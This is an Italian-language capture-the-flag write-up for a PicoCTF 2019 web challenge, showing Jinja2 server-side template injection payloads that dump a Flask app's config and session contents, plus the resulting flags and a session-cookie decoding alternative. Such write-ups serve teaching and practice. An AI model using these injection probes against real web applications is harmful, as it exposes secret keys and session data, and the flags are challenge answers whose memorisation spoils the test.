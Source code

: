 ```yaml
---
tags:
  - WebExploitation
  - PicoCTF2019
---
```



## Problema 

Well done, Agent 513! Our sources say Evil Empire Co is passing secrets around when you log in: [link](https://2019shell1.picoctf.com/problem/10833/), can you help us find it? or http://2019shell1.picoctf.com:10833

## Soluzione

Dopo la consueta registrazione, provo a attaccare con apice `'` i TODO come in Empire1 ma vedo che questa volta viene parsato correttamente.
Proviamo un attacco di [template injection](https://portswigger.net/research/server-side-template-injection) mettendo il seguente codice nei TODO
```
{{ 7 * 7 }}
```
Ottengo 49. Funziona!
Provo con
```
{{self}}
```
e ottengo
```
<TemplateReference None>
```
Provo con
```
{{7 * '7'}}
```
e ottengo
```
7777777
```
Con un po' di ricerche sull'internet ottengo che il motore di template è **Jinja2**.
In questi casi la prima cosa da provare è leggerne le config per avere qualche informazione addizionale, eseguo:
```
{{config.items()}}
```
Ottengo:
```
Very Urgent: dict_items([('ENV', 'production'), ('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('PRESERVE_CONTEXT_ON_EXCEPTION', None), ('SECRET_KEY', 'picoCTF{your_flag_is_in_another_castle12345678}'), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', False), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', datetime.timedelta(0, 43200)), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('JSON_AS_ASCII', True), ('JSON_SORT_KEYS', True), ('JSONIFY_PRETTYPRINT_REGULAR', False), ('JSONIFY_MIMETYPE', 'application/json'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093), ('SQLALCHEMY_DATABASE_URI', 'sqlite://'), ('SQLALCHEMY_TRACK_MODIFICATIONS', False), ('SQLALCHEMY_BINDS', None), ('SQLALCHEMY_NATIVE_UNICODE', None), ('SQLALCHEMY_ECHO', False), ('SQLALCHEMY_RECORD_QUERIES', None), ('SQLALCHEMY_POOL_SIZE', None), ('SQLALCHEMY_POOL_TIMEOUT', None), ('SQLALCHEMY_POOL_RECYCLE', None), ('SQLALCHEMY_MAX_OVERFLOW', None), ('SQLALCHEMY_COMMIT_ON_TEARDOWN', False), ('SQLALCHEMY_ENGINE_OPTIONS', {}), ('BOOTSTRAP_USE_MINIFIED', True), ('BOOTSTRAP_CDN_FORCE_SSL', False), ('BOOTSTRAP_QUERYSTRING_REVVING', True), ('BOOTSTRAP_SERVE_LOCAL', False), ('BOOTSTRAP_LOCAL_SUBDOMAIN', None)])
```
Da qui trovo la SECRET_KEY
```
picoCTF{your_flag_is_in_another_castle12345678}
```
che però non funziona!
Provo a vedere le variabili di ambiente di flask da [questo](https://flask.palletsprojects.com/en/1.1.x/templating/#standard-context) link, proviamo con:
```
{{session.items()}}
```
e otteniamo:
```
Very Urgent: dict_items([('_fresh', True), ('_id', 'e158b0de9e526f3ac153dcdf248dda884144b2e75231044c19d787cb04a44dc89ea5ae89a59d76efa4f5ced1a8cc0df572c54d59effaad2144069cdc8d5179f0'), ('csrf_[[token]]', '03046f52e77982f7a7dc626c9d8295d76f6085ec'), ('dark_secret', 'picoCTF{its_a_me_your_flagf3d56a8a}'), ('user_id', '5')])
```
Trovata! La flag è:
```
picoCTF{its_a_me_your_flagf3d56a8a}
```

### Alternativa

Esiste un tool per decodificare i cookie di sessione di Flask, si trova [qui](https://www.kirsle.net/wizards/flask-session.cgi), inserendo il cookie session che trovo ottengo:
```
{
    "_fresh": true,
    "_id": "8cd7ed88b8f2634ebe13cbb6c321c3090c11254effbb99924bf9037639c9fda127643b8e1c4ba5257fce7a193639ae2f5e2911ece327e48e43b386ef65618709",
    "csrf_[[token]]": "bf1d1303f409590730443f12541c77cdb97811e8",
    "dark_secret": "picoCTF{its_a_me_your_flag3f43252e}",
    "user_id": "3"
}
```
